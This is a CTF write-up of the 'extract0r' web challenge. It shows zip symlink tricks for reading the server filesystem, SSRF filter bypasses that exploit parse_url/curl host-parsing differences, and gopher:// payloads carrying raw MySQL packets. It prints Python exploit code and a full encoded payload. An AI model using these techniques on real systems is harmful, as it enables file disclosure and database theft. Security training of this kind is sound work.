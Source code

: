 # extract0r - web - medium

> Found this great new extraction service. Enjoy!

> Difficulty: medium


# Writeup

In this challenge you can access a website that will extract archives for you. There is no upload functionality, but instead you provide a URL and the website will fetch your archive from there. The extraction occurs in a folder with a random hash name, so you won't interfer with other users. 

## Leaking files

Of course some simple things to try are:
  * Upload a PHP file
  * Upload a .htaccess to allow PHP execution

However, these will all fail. An interesting object that can be stored inside a .zip is a symlink. If you have been playing CTF for a while, you know that when you can extract or compress ZIP archives, you probably have to do something with symlinks ;-) 

A simple way to create a symlink that points to /:

```bash
    ln -s / root
    zip --symlinks foo.zip root
```
Note the `--symlinks` flag, without it the actual contents of the symlinks are stored in the .zip instead of the symlink itself. If you upload the created .zip file, you will be greeted with the following message:


```
WARNING:
we have deleted some folders from your archive for security reasons with our cyber-enabled filtering system!
```

If you check the `cyber-enabled filtering system` you will notice it uses `glob($directory . "/*")` to remove any file that is not a file, i.e. links and directories. So you can create a symlink to known files like /etc/passwd, but you can't get a directory listing unless you bypass the filter. If you play around with `glob` you might notice that files starting with a dot (hidden files) are not listed by it. Therefore you can bypass the filter:

```bash
    ln -s / .root
    zip --symlinks foo.zip .root
```

Now look at your extracted files, you can't see `.root` since apache doesn't list hidden files, but it's there. Just point your browser to `/3b5f55dbd0dc04d87dd55855a275dd0a65195b61/.root` and you will have access to the whole filesystem:

![filesystem](https://i.imgur.com/k752d2A.png)

## Finding the flag

If you look around the filesystem you will stumble upon `/home/extract0r` which contains a file called`create_a_backup_of_my_supersecret_flag.sh`. It is a basic script that should hint where the flag is located: in a table called `flag` inside a mysql database. You can also see that the mysql user `m4st3r_ov3rl0rd` has access to it and he doesn't use a password (this will be important later).

OK so you probably have to connect to the mysql database and get the flag from there. You might think you need to get RCE, but you don't :) 

Remember you can let the server make requests to fetch your archive? We will use that functionality to connect to the mysql database and extract the flag. 


## Bypassing SSRF filter

However, MySQL only listens on localhost, so we have to somehow make a request to localhost. A simple `http://localhost:3306/` will fail:

```
ERROR
Couldn't resolve your host 'localhost' or the resolved ip '127.0.0.1' is blacklisted!
```

There is a protection in place which will not allow you to connect to localhost. As you have access to the filesystem now, you can just download the source files `index.php` and `url.php`. In `url.php` there is a rather long logic to prevent SSRF to localhost (or any other blacklisted ip range).  

How it works:

  1. Use PHP's `parse_url` to split the provided URL into its host, scheme, port, path, etc. parts
  2. Clean each part (didn't want people to just use Orange's SSRF paper...)
  3. Resolve the host and check if it matches a blacklist.
  4. Rebuild the URL.
  5. Use curl with DNS and Port pinning.

The way to trick the script is to make curl and PHP's `parse_url` parse different hosts. That way the script will verify a valid host like google.com, but curl will in fact request a blacklisted host like localhost.

You can play around with it and you will come up with a payload similar to this:
```
    http://foo@localhost:foo@google.com:3306/
```

Curl will parse `localhost` as host, whereas PHP will parse `google.com` as host. The check will pass and curl will request localhost.

### Intended solution

The above solution is what every team used as far as I can tell from logs. For some reason I didn't find that solution when I created the challenge... My intended solution uses a domain inside IPv6 notation:

```
    http://foo@[cafebabe.cf]@google.com:3306/
```

You can't just use a IPv6 IP because digits are removed by the filter. Also curl only allows hexadecimal characters between the brackets. So you had to come up with a domain that only consisted of a-f: .cf domains are free and I registered cafebabe.cf which points to 127.0.0.1.

I was a bit sad when I saw how teams solved it, cause I think the intended solution is way more fun :P But oh well, curl fucked with me once again hehe

## Talking to mysql

So at this point you can make requests to port 3306 on localhost. Of course mysql doesn't talk http so you probably wanna use a different protocol like gopher://. Gopher allows you to control all the bytes transmitted, whereas with http you have the headers and other url-encoded data that you don't control.

The next step was to figure out how to talk to mysql. Mysql uses a binary protocol and a handshake to login users. So you should not be able to connect to it via a single request. However, if you check in Wireshark, you will notice that a user login without password doesn't require the handshake.

Basically just watch the packets you see in Wireshark and rebuild them in your exploit. You can see that in my [exploit](exploit/exploit.py):

First the login packet:
```python
auth = bytearray([
    0x48, 0x0, 0x0,     # length
    0x1,                # seqid
    0x85, 0xa6, 0x3f, 0x20, 0, 0, 0, 0x1, 0x21, 0, 0,
    0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0,
    0, 0, 0, 0, 0
] + list(b'm4st3r_ov3rl0rd') + [      # mysql user
    0, 0,               # pass length & pass
] + list(b'mysql_native_password') + [
    0, 0,
])
```

And then the packet for the SELECT command:
```python
def make_cmd(cmd):
    length = struct.pack("<I", len(cmd) + 2)[:3]

    return length + bytearray([
        0x0,         # seqid
        0x3,   # select query
    ]) + cmd
```

Using these packets we can now talk to MySQL and execute a SELECT query.

## Extracting the flag

Reading out the flag should be as easy as running the `SELECT flag FROM flag` query. However, the webapp doesn't display results, it only extracts archives. How can you therefore get the flag out of the database and displayed? 

The hard way: Use time-based blind "injection" to dump the flag char by char like in a SQL injection scenario.

The easy and intended way: Simply prepend and append to the flag the correct ZIP headers/footers so that the webapp will think it is a ZIP archive and extract it. You can see that in my exploit:

```python
flag_dummy = b"B"*100

payload = zip_tools.create_zip(b"gimme_flag", flag_dummy)

prefix = bytes(payload.split(flag_dummy)[0])
suffix = bytes(payload.split(flag_dummy)[1])


sql_cmd = b"select concat(cast(0x" + hexlify(prefix) + b" as binary), rpad(flag, 100, 'A'), cast(0x" + hexlify(suffix) + b" as binary)) from flag.flag-- -"
```
First I create a ZIP that contains a file called "gimme\_flag" which contains a dummy string "B"\*100.
I want to build a SQL query that will replace my dummy string with the flag. I just split my ZIP archive on the dummy string to get `prefix` and `suffix` and then I do a SQL concat of the prefix, the flag (padded to the length of my dummy string) and the suffix. Therefore the result of the SELECT query will be a valid ZIP archive with one file in it that contains the flag.

## Getting the flag!

Ok so now you've got everything you need to finally get the flag. Just url-encode the MySQL packets and append them to the URL that bypasses the SSRF check:

```
gopher://foo@[cafebabe.cf]@google.com:3306/MYSQL_PACKET_HERE
```

How the final URL looks like (produced by running `python exploit/exploit.py`):

```
gopher://foo@[cafebabe.cf]@yolo.com:3306/A%48%00%00%01%85%a6%3f%20%00%00%00%01%21%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%6d%34%73%74%33%72%5f%6f%76%33%72%6c%30%72%64%00%00%6d%79%73%71%6c%5f%6e%61%74%69%76%65%5f%70%61%73%73%77%6f%72%64%00%00%4c%01%00%00%03%73%65%6c%65%63%74%20%63%6f%6e%63%61%74%28%63%61%73%74%28%30%78%35%30%34%62%30%33%30%34%30%61%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%36%34%30%30%30%30%30%30%36%34%30%30%30%30%30%30%30%61%30%30%30%30%30%30%36%37%36%39%36%64%36%64%36%35%35%66%36%36%36%63%36%31%36%37%20%61%73%20%62%69%6e%61%72%79%29%2c%20%72%70%61%64%28%66%6c%61%67%2c%20%31%30%30%2c%20%27%41%27%29%2c%20%63%61%73%74%28%30%78%35%30%34%62%30%31%30%32%31%65%30%33%30%61%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%36%34%30%30%30%30%30%30%36%34%30%30%30%30%30%30%30%61%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%30%36%37%36%39%36%64%36%64%36%35%35%66%36%36%36%63%36%31%36%37%35%30%34%62%30%35%30%36%30%30%30%30%30%30%30%30%30%31%30%30%30%31%30%30%33%38%30%30%30%30%30%30%38%63%30%30%30%30%30%30%30%30%30%30%20%61%73%20%62%69%6e%61%72%79%29%29%20%66%72%6f%6d%20%66%6c%61%67%2e%66%6c%61%67%2d%2d%20%2d%46%4f%4f%4f%4f%4f%4f%4f%4f%4f%4f%4f%4f%42%41%52
```

Provide that URL to extract0r et voila:

![da flag](https://i.imgur.com/R36K0Dd.png)

Click on it to get the flag:

![da flag](https://i.imgur.com/t9YQ7Xz.png)

(The A's are the padding added to the flag to pad it to the size of the dummy string)

Hope you guys liked the challenge!
